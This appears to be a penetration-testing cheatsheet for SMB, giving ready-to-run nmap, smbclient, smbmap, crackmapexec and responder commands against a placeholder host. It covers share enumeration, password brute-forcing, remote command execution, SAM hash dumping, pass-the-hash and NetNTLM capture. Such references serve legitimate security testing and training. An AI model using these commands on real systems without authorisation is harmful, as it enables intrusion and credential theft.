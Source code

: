 # SMB Enumeration Cheatsheet
## 1. Enumerate SMB Version and Scripts (nmap)
Gather detailed SMB service information.
```
sudo nmap -sV -sC -p139,445 target.com
```
- `-sV`: Detects service and version.
- `-sC`: Runs default scripts (e.g., `smb2-security-mode`, `smb2-time`).

## 2. Check Anonymous SMB Shares (smbclient)
Test for null session (anonymous) access to list shares.
```
smbclient -N -L //target.com
```
- `-N`: No password (null session).
- `-L`: Lists available shares.

## 3. Enumerate SMB Shares and Permissions (smbmap)
List shares and check permissions.
```
smbmap -H target.com
```
- `-H`: Specify target host.
- Use `-r sharename` to browse a specific share's contents.

## 4. Brute-Force SMB Credentials (crackmapexec)
Attempt SMB password spraying or brute-forcing.
```
crackmapexec smb target.com -u users.txt -p passwords.txt --local-auth
```
- `-u users.txt`: Username wordlist.
- `-p passwords.txt`: Password wordlist.
- `--local-auth`: For non-domain joined systems.

## 5. Enumerate SMB Directory Listing (smbmap)
List files in a share (if readable).
```
smbmap -H target.com -r sharename
```
- `-r sharename`: Browse files in the specified share.

## 6. Download Files from SMB (smbmap)
Retrieve files from an SMB share.
```
smbmap -H target.com --download "sharename\filename"
```
- `--download`: Downloads the specified file.

## 7. Upload Files to SMB (smbmap)
Test write permissions by uploading files.
```
smbmap -H target.com --upload localfile "sharename\filename"
```
- `--upload`: Uploads the specified file.

## 8. Remote Command Execution (crackmapexec)
Execute commands on the target with valid credentials.
```
crackmapexec smb target.com -u username -p password -x 'whoami' --exec-method smbexec
```
- `-x`: Run CMD command.
- `--exec-method smbexec`: Uses SMB-based execution.

## 9. Enumerate Logged-on Users (crackmapexec)
List users currently logged on.
```
crackmapexec smb target.com -u username -p password --loggedon-users
```
- `--loggedon-users`: Enumerates logged-on users.

## 10. Extract SAM Hashes (crackmapexec)
Dump SAM database hashes with admin privileges.
```
crackmapexec smb target.com -u username -p password --sam
```
- `--sam`: Dumps SAM hashes for local accounts.

## 11. Pass-the-Hash (crackmapexec)
Authenticate using NTLM hash instead of password.
```
crackmapexec smb target.com -u username -H ntlmhash
```
- `-H ntlmhash`: Use NTLM hash for authentication.

## 12. Capture NetNTLM Hashes (responder)
Set up a fake SMB server to capture hashes.
```
sudo responder -I interface
```
- `-I interface`: Specify network interface (e.g., eth0).

## Tips
- Use SecLists for `users.txt` and `passwords.txt`.
- Check for misconfigurations (e.g., null sessions, excessive permissions).
- Be cautious with brute-forcing to avoid account lockouts.